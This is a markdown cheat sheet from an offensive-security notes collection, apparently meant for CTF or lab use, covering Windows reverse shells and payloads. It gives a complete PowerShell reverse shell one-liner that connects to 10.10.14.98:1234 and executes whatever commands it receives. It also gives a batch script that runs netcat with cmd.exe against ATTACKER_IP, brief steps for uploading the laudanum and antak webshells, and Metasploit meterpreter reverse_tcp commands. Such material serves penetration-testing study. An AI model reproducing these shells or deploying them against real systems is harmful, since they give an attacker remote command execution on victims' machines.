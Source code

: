 
# Windows reverse shells
## Basic powershell reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.98',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## reverse shell dll

```


```
## reverse shell .bat
```
@echo off
set ATTACKER_IP=10.10.14.98
set PORT=1234

nc.exe %ATTACKER_IP% %PORT% -e cmd.exe
```
## Nishang


## Webshells

### laudanum
Find the type of shell needed, make copy


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/bc795f21-8190-4590-a4a3-2fb35488a5fa)
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/54a0b631-94a3-4ce9-a001-6e5c213c3a7b)


Add our IP


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/a8ee9650-7b22-4c93-9136-a06e2fe8129a)

Upload file to site, go to location of file.


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d49eabfc-1581-497d-bc91-b7346bb9d019)

### antak

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7d56c6d0-80cf-4e78-92c7-b43b8326ebf2)

change login info

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0393c2f3-08b3-4015-a1ce-699bbed4e6b2)

Upload go to shell page

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/f5158b1f-e185-4343-9278-23ea1ece5ecc)# Payloads


![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/49b877f9-8979-4760-9b1f-038c410c9e7f)


## Shells with Metasploit

### Staged vs non staged
```
In Metasploit, the “/” character is used to denote whether a payload is staged or not,
so shell_reverse_tcp at index 20 is not staged, whereas shell/reverse_tcp at index 15 is.
```

### msfvenom

![Pasted image 20230508141045](https://github.com/dbissell6/Shadow_Stone/assets/50979196/988055f3-d9a3-4b0a-9e5b-be91b0886c30)

### msfconsole

g will set variable as global, useful when trying different exploits
`setg rhosts 10.10.10.10`


![Pasted image 20230508141206](https://github.com/dbissell6/Shadow_Stone/assets/50979196/efbcf2e5-fec1-4485-ba20-5e988702c92b)


`set payload windows/meterpreter/reverse_tcp`


### show system arch vs payload arch

![Pasted image 20230508154055](https://github.com/dbissell6/Shadow_Stone/assets/50979196/31f9ac3d-5efb-4b31-9237-f0b652376925)

Now can
```
set payload windows/x64/meterpreter/reverse_tcp
```

